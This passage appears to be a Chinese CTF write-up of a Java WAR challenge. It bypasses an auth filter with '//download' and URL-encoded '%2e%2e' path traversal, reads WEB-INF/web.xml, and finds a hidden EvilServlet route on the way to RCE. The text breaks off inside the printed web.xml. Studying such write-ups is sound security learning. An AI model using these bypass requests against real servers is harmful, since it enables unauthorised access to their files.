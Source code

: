 DownloadServlet 很明显存在任意文件下载, 但是 AuthFilter 限制不能访问 `/download` 路由

```java
if (request.getRequestURI().contains("..")) {
    resp.getWriter().write("blacklist");
    return;
}

if (request.getRequestURI().startsWith("/download")) {
    resp.getWriter().write("unauthorized access");
} else {
    chain.doFilter(req, resp);
}
```

根据网上的文章可以知道, 直接通过 getRequestURI() 得到的 url 路径存在一些问题, 比如不会自动 urldecode, 也不会进行标准化 (去除多余的 `/` 和 `..`)

这里 `..` 被过滤了, 所以直接访问 `//download` 就能绕过, 后面目录穿越下载文件的时候可以将 `..` 进行一次 url 编码

然后可以通过 `//download?filename=avatar.jpg` 下载文件, 但是无法读取 `/flag` (提示 Permission denied), 那么很明显需要 RCE

根据题目描述, 网站使用 war 打包

这个 war 其实也就相当于压缩包, Tomcat 在部署 war 的时候会将其解压, 而压缩包内会存在一个 WEB-INF 目录, 目录里面包含编译好的 .class 文件以及 web.xml (保存路由和类的映射关系)

下载 web.xml

```
//download?filename=%2e%2e/WEB-INF/web.xml
```

xml 内容

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">

    <servlet>
        <servlet-name>IndexServlet</servlet-name>
        <servlet-class>com.example.demo.IndexServlet</servlet-class>
    </servlet>
    <servlet>
        <servlet-name>DownloadServlet</servlet-name>
        <servlet-class>com.example.demo.DownloadServlet</servlet-class>
    </servlet>
    <servlet>
        <servlet-name>EvilServlet</servlet-name>
        <servlet-class>com.example.demo.EvilServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>IndexServlet</servlet-name>
        <url-pattern>/</url-pattern>
    </servlet-mapping>
    <servlet-mapping>
        <servlet-name>DownloadServlet</servlet-name>
        <url-pattern>/download</url-pattern>
    </servlet-mapping>
    <servlet-mapping>
        <servlet-name>EvilServlet</servlet-name>
        <url-pattern>/You_Find_This_Evil_Servlet_a76f02cb8422</url-pattern>
    </servlet-mapping>
    
    <filter>
```
